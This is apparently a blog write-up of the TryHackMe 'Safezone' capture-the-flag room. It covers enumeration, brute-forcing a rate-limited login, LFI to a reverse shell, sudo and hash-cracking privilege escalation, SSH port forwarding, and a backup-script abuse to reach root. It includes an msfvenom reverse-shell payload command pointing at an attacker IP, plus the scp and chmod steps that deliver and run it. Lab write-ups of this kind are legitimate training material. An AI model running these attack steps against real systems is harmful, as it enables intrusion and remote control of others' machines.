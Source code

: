 ```yaml
---
author:
  name: "papadope"
date: 2021-03-31
linktitle: Safezone
type:
- post
title: Safezone
weight: 10
series:
- Tryhackme
---
```


![Room Image](/safezone/room.png)

## Enumeration

![nmap](/safezone/nmap.png)

Nmap scan.

---

![ferox](/safezone/ferox.png)

---

### More than enough

![ferox](/safezone/ferox1.png)

Why that *wordlist*?
I didn't knew about that but I dmed in Discord a friend of mine and told me to search with that wordlist.
Then I remember that in Apache there is a setting where it includes home directories in it's file system.

![apache](/safezone/apache.png)

---

## Foothold

After reading the file inside the home directory we now know that we miss 2 numbers between the password **admin _ _ admin**.
I wrote a python script to brute force the password but it's really slow cause if you try more than 3 times in 60 seconds you are going to get blocked. You can read the script [here](https://raw.githubusercontent.com/Papadope/Safezone_Script/main/greatbruteforcer.py).

After getting the right pass, log in with it.
Do you remember that?

![page](/safezone/page.png)

You can exploit the LFI now on the **detail.php**. After that it's easy to get a RS in the box.

## Privesc #1

You logged in as **www-data** and you can instantly go for **sudo -l**. The link you need is [here](https://gtfobins.github.io/gtfobins/find/#sudo).

## Privesc #2

Now you are the user **files**. There is a file called **'.something#fake_can@be^here'**. Crack the hash with rockyou and log in with SSH. 

After searching for something useful (and no I am not talking about sudo -l, yes I saw that too) there is a service on localport.

Port forward it 

```

ssh -L 8000:127.0.0.1:8000 files@safezone.thm -N -f

```

* You already have the password if you cracked the hash.

Searching for directories in the service I forwarded led me in a file:
* login.html

And this file, by looking inside led me to another file:
* pentest.php

### Creating the shell.

```

msfvenom -p linux/x86/shell_reverse_tcp LHOST=108.59.209 LPORT=1234 -f elf > candy

```

And then 3 more things.

* CP -> **scp candy files@safezone.thm:/tmp/**
* Login -> **ssh files@safezone.thm**
* CHMOD -> **chmod +x /tmp/candy**

Inside the field of the pentest.php page go for **/tmp/candy** and wait for a shell on your NC Listener.

## Privesc #3

You are now the user **yash**. Doing a **sudo -l** I saw that there is a file called **bk.py**. You can run it as root but you can't do anything else. I followed exactly what the file told me to do.

* Enter filename: /root/*
* Enter destination: /home/yash/root_flag
* Enter password: 1234

Then you can **cat root_flag** and get the root flag.

Thank you very much for reading.